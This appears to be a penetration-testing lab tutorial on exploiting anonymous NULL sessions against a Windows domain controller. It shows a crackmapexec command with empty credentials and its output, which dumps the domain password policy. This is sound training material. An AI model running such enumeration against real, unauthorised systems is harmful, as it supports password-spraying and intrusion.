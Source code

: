 # Exploiting NULL/Anonymous Sessions

A [NULL Session](https://en.wikipedia.org/wiki/Null_session) is an anonymous connection to an inter-process communication network service on Windows-based computers. The service is designed to allow named pipe connections but may be used by attackers to gather information about the system remotely.

When a target is vulnerable to a `NULL Session`, especially a domain controller, it will allow the attacker to gather information without having a valid domain account, such as:

* Domain users (`--users`)
* Domain groups (`--groups`)
* Password policy (`--pass-pol`)
* Share folders (`--shares`)

Let's try it on a domain controller using the following commands:

### **Enumerating the Password Policy**

```
$ crackmapexec smb 10.129.203.121 -u '' -p '' --pass-pol
SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] Dumping password info for domain: INLANEFREIGHT
SMB         10.129.203.121  445    DC01             Minimum password length: 7
SMB         10.129.203.121  445    DC01             Password history length: 24
SMB         10.129.203.121  445    DC01             Maximum password age: 41 days 23 hours 53 minutes 
SMB         10.129.203.121  445    DC01             
SMB         10.129.203.121  445    DC01             Password Complexity Flags: 000001
SMB         10.129.203.121  445    DC01                 Domain Refuse Password Change: 0
SMB         10.129.203.121  445    DC01                 Domain Password Store Cleartext: 0
SMB         10.129.203.121  445    DC01                 Domain Password Lockout Admins: 0
SMB         10.129.203.121  445    DC01                 Domain Password No Clear Change: 0
SMB         10.129.203.121  445    DC01                 Domain Password No Anon Change: 0
SMB         10.129.203.121  445    DC01                 Domain Password Complex: 1
SMB         10.129.203.121  445    DC01             
SMB         10.129.203.121  445    DC01             Minimum password age: 1 day 4 minutes 
SMB         10.129.203.121  445    DC01             Reset Account Lockout Counter: 30 minutes 
SMB         10.129.203.121  445    DC01             Locked Account Duration: 30 minutes 
SMB         10.129.203.121  445    DC01             Account Lockout Threshold: None
SMB         10.129.203.121  445    DC01             Forced Log off Time: Not Set
```
